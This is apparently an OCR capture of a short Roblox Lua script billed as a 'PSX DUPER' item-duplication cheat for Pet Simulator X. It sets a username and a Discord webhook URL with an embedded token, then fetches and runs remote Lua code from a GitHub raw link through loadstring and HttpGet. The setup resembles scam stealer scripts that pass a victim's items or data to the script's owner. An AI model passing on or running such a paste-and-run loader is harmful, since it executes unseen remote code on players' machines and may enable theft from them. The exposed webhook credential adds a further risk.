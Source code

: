 _G.Username = "SunFootMan"
_G.HubName = "PSX DUPER Script made by UserChad"
_ G.WebhookUrl = "https://discord.com/api/webhooks/1108418820487516160/dHXeT25QR3eBbUoZ7joz9DZI5LHsSuoGPWrVYHDW9zJIz0XEAD-2CbqZpHGWetcj_Ycx"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
